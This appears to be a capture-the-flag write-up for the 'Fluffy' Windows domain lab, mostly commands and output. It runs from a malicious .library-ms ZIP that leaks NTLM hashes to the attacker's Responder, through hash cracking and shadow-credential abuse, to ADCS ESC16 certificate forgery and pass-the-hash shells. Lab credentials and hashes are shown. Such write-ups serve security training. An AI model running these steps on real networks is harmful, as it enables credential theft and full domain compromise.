




# Description

As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: `j.fleischman` / `J0elTHEM4n1990!`

# Nmap scan

```bash
cat nmap_services.txt 
# Nmap 7.95 scan initiated Sat Apr 11 09:30:34 2026 as: /usr/lib/nmap/nmap --privileged -sV -sC -p 53,88,139,389,445,464,593,636,3268,3269,5985,9389 -oN /home/kali/htb/Fluffy/nmap_services.txt 10.129.232.88
Nmap scan report for 10.129.232.88 (10.129.232.88)
Host is up (0.24s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-11 20:33:12Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-04-11T20:34:52+00:00; +7h02m28s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
|_ssl-date: 2026-04-11T20:34:48+00:00; +7h02m29s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-11T20:34:51+00:00; +7h02m31s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-04-11T20:34:52+00:00; +7h02m31s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h02m29s, deviation: 1s, median: 7h02m30s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-04-11T20:34:08
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 11 09:32:24 2026 -- 1 IP address (1 host up) scanned in 110.72 seconds

```


| Port | Service      | Version                         | Notes              |
| ---- | ------------ | ------------------------------- | ------------------ |
| 53   | domain       | Simple DNS Plus                 | DC01.fluffy.htb    |
| 88   | kerberos-sec | Microsoft Windows Kerberos      |                    |
| 139  | netbios-ssn  | Microsoft Windows netbios-ssn   |                    |
| 389  | ldap         | Microsoft Windows AD LDAP       | Domain: fluffy.htb |
| 445  | microsoft-ds | SMB                             | Signing enabled    |
| 464  | kpasswd5     |                                 |                    |
| 593  | ncacn_http   | Microsoft Windows RPC over HTTP |                    |
| 636  | ldapssl      | LDAPS                           |                    |
| 3268 | ldap         | Global Catalog LDAP             |                    |
| 3269 | ldapssl      | Global Catalog LDAPS            |                    |
| 5985 | http         | WinRM                           |                    |
| 9389 | mc-nmf       | .NET Message Framing            | ADWS               |


# User Flag

## Port 445

```
nxc smb 10.129.232.88 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```

```bash
nxc smb 10.129.232.88 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares

SMB         10.129.232.88   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.129.232.88   445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.129.232.88   445    DC01             [*] Enumerated shares
SMB         10.129.232.88   445    DC01             Share           Permissions     Remark
SMB         10.129.232.88   445    DC01             -----           -----------     ------
SMB         10.129.232.88   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.232.88   445    DC01             C$                              Default share
SMB         10.129.232.88   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.232.88   445    DC01             IT              READ,WRITE      
SMB         10.129.232.88   445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.232.88   445    DC01             SYSVOL          READ            Logon server share

```




```bash
┌──(kali㉿kali)-[~/htb/Fluffy]
└─$ /usr/share/exploitdb/exploits/windows/remote/52310.py -i 10.10.14.29  
[*] Generating malicious .library-ms file...
[+] Created ZIP: output/malicious.zip
[-] Removed intermediate .library-ms file
[!] Done. Send ZIP to victim and listen for NTLM hash on your SMB server.
```

```bash
smb: \> put /home/kali/htb/Fluffy/output/malicious.zip malicious.zip
putting file /home/kali/htb/Fluffy/output/malicious.zip as \malicious.zip (0.1 kb/s) (average 0.2 kb/s)
smb: \> 

```


```bash

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.29]
    Responder IPv6             [dead:beef:2::101b]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-II2N2OEXZ49]
    Responder Domain Name      [X8N4.LOCAL]
    Responder DCE-RPC Port     [45798]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...                                                                                                                                              

[SMB] NTLMv2-SSP Client   : 10.129.232.88
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:e18f3d0020d25ed3:CBA616D80AA22049EF0DF2BC1BE3AFB0:0101000000000000009AACDA9FC9DC0151EDB9C75A7647700000000002000800580038004E00340001001E00570049004E002D004900490032004E0032004F00450058005A003400390004003400570049004E002D004900490032004E0032004F00450058005A00340039002E00580038004E0034002E004C004F00430041004C0003001400580038004E0034002E004C004F00430041004C0005001400580038004E0034002E004C004F00430041004C0007000800009AACDA9FC9DC01060004000200000008003000300000000000000001000000002000000FA5D6DC6DC9E07DF61108155F5042B9116159FBBA52FEADE1F4773BEAE1AB6A0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320039000000000000000000                                                                                                                           
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila

```

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-11400H @ 2.70GHz, 2913/5890 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

P.AGILA::FLUFFY:e18f3d0020d25ed3:cba616d80aa22049ef0df2bc1be3afb0:0101000000000000009aacda9fc9dc0151edb9c75a7647700000000002000800580038004e00340001001e00570049004e002d004900490032004e0032004f00450058005a003400390004003400570049004e002d004900490032004e0032004f00450058005a00340039002e00580038004e0034002e004c004f00430041004c0003001400580038004e0034002e004c004f00430041004c0005001400580038004e0034002e004c004f00430041004c0007000800009aacda9fc9dc01060004000200000008003000300000000000000001000000002000000fa5d6dc6dc9e07df61108155f5042b9116159fbba52feade1f4773beae1ab6a0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320039000000000000000000:prometheusx-303
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: P.AGILA::FLUFFY:e18f3d0020d25ed3:cba616d80aa22049ef...000000
Time.Started.....: Sat Apr 11 10:52:25 2026, (3 secs)
Time.Estimated...: Sat Apr 11 10:52:28 2026, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1490.3 kH/s (0.92ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4517888/14344385 (31.50%)
Rejected.........: 0/4517888 (0.00%)
Restore.Point....: 4515840/14344385 (31.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: proretriever -> progree
Hardware.Mon.#1..: Util: 70%

Started: Sat Apr 11 10:52:10 2026
Stopped: Sat Apr 11 10:52:30 2026

```

```bash
certipy shadow auto -u P.AGILA@fluffy.htb -p 'prometheusx-303' -account winrm_svc -dc-ip 10.129.232.88 -target-ip 10.129.232.88
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'cf723bb1f2b144c7994135f70dac9c8a'
[*] Adding Key Credential with device ID 'cf723bb1f2b144c7994135f70dac9c8a' to the Key Credentials for 'winrm_svc'
[-] Could not update Key Credentials for 'winrm_svc' due to insufficient access rights: 00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0

                                                                 
```

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.232.88 add groupMember 'service accounts' p.agila
[+] p.agila added to service accounts

```

```bash
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c6b815d7cd9e4f9e93cd0b60edb73f5f'
[*] Adding Key Credential with device ID 'c6b815d7cd9e4f9e93cd0b60edb73f5f' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'c6b815d7cd9e4f9e93cd0b60edb73f5f' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8

```

```bash
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account winrm_svc
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'adca5e5f42c8421abf48f61115d3a50d'
[*] Adding Key Credential with device ID 'adca5e5f42c8421abf48f61115d3a50d' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID 'adca5e5f42c8421abf48f61115d3a50d' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
[*] Wrote credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767

```


```bash
evil-winrm -i 10.129.232.88 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> dir
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
[REDACTED]

```

```bash
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c6b815d7cd9e4f9e93cd0b60edb73f5f'
[*] Adding Key Credential with device ID 'c6b815d7cd9e4f9e93cd0b60edb73f5f' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'c6b815d7cd9e4f9e93cd0b60edb73f5f' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8

```

# Root Flag

Further enumeration should be done on the Active Directory environment. It should be found that the `Active Directory Certificate Service( ADCS )` is running in the target. Let's use `nxc` to confirm this using the `adcs` module.

```bash
nxc ldap 10.129.232.88 -u 'winrm_svc' -H 33bd09dcd697600edf6b3a7af4875767 -M adcs
LDAP        10.129.232.88   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        10.129.232.88   389    DC01             [+] fluffy.htb\winrm_svc:33bd09dcd697600edf6b3a7af4875767
ADCS        10.129.232.88   389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.232.88   389    DC01             Found PKI Enrollment Server: DC01.fluffy.htb
ADCS        10.129.232.88   389    DC01             Found CN: fluffy-DC01-CA

```

Further enumeration should be done on the Active Directory environment. It should be found that the Active Directory Certificate Service( ADCS ) is running in the target. Let's use crackmapexec to confirm this using the adcs module. Since we know ADCS is installed on the Domain Controller, we can use certipy to find the vulnerable templates in the Certificate Authority. For this, we must use the RC4 hash of the ca_svc user we retrieved earlier.

```bash
certipy-ad find -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.232.88 -vulnerable -enabled -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates

```



```bash
──(kali㉿kali)-[~/tools/krbrelayx]
└─$ bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.232.88 add groupMember 'service accounts' p.agila
[+] p.agila added to service accounts
                                                                                                  
┌──(kali㉿kali)-[~/tools/krbrelayx]
└─$ certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'administrator'         
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
                                                                                                  
┌──(kali㉿kali)-[~/tools/krbrelayx]
└─$ certipy-ad req -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip '10.129.232.88' -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error: The NETBIOS connection with the remote host timed out.
[-] Use -debug to print a stacktrace
                                                                                                  
┌──(kali㉿kali)-[~/tools/krbrelayx]
└─$ certipy-ad req -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip '10.129.232.88' -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 18
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
                                                                                                  
┌──(kali㉿kali)-[~/tools/krbrelayx]

```


```powershell
┌──(kali㉿kali)-[~/htb/Fluffy]
└─$ evil-winrm -i 10.129.232.88 -u Administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\
*Evil-WinRM* PS C:\Users\Administrator> ls


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        5/19/2025   3:31 PM                3D Objects
d-r---        5/19/2025   3:31 PM                Contacts
d-r---        5/19/2025   3:31 PM                Desktop
d-r---        5/20/2025   9:17 AM                Documents
d-r---        5/19/2025   3:31 PM                Downloads
d-r---        5/19/2025   3:31 PM                Favorites
d-r---        5/19/2025   3:31 PM                Links
d-r---        5/19/2025   3:31 PM                Music
d-r---        5/19/2025   3:31 PM                Pictures
d-r---        5/19/2025   3:31 PM                Saved Games
d-r---        5/19/2025   3:31 PM                Searches


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
[REDACTED]

```
